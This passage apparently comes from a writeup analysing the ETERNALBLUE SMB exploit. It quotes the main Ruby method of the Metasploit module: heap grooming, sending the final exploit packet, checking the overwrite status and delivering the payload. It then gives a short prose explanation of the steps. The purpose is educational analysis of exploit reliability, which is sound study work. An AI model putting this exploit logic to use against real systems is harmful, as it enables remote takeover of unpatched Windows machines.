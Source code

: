 ```ruby
      print_good('Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.')
      fhs_sock.shutdown

      print_status('Sending final SMBv2 buffers.') # 6x
      smb2_grooms(6, payload_hdr_pkt) # TODO: magic #

      fhf_sock.shutdown

      print_status('Sending last fragment of exploit packet!')
      final_exploit_pkt = make_smb1_trans2_exploit_packet(tree.id, client.user_id, :eb_trans2_exploit, 15)
      sock.put(final_exploit_pkt)

      print_status('Receiving response from exploit packet')
      code, _raw = smb1_get_response(sock)

      code_str = '0x' + code.to_i.to_s(16).upcase
      if code.nil?
        print_error('Did not receive a response from exploit packet')
      elsif code == 0xc000000d # STATUS_INVALID_PARAMETER (0xC000000D)
        print_good("ETERNALBLUE overwrite completed successfully (#{code_str})!")
      else
        print_warning("ETERNALBLUE overwrite returned unexpected status code (#{code_str})!")
      end

      # Step 4: Send the payload
      print_status('Sending egg to corrupted connection.')

      @groom_socks.each { |gsock| gsock.put(payload_body_pkt.first(2920)) }
      @groom_socks.each { |gsock| gsock.put(payload_body_pkt[2920..(4204 - 0x84)]) }

      print_status('Triggering free of corrupted buffer.')
      # tree disconnect
      # logoff and x
      # note: these aren't necessary, just close the sockets
      return true
    ensure
      abort_sockets
    end
  end
```

This is the main method that is running the exploit (looking at the Windows 7 and before version because the Windows 8 one is a little more complicated), and we can kind of see each step of the process here. We're crafting a malicious SMB packet to send to the IPC$ share, grooming the heap to increase the chances of landing the shell, and then attempting to trigger the payload from the corrupted connection itself.

I would try to dig deeper into each line so that we're not trying to work off of abstractions, but it would take me way longer than it should to *truly* understand the whole process. However, based on this, I have two theories as to why it might not work as consistently.
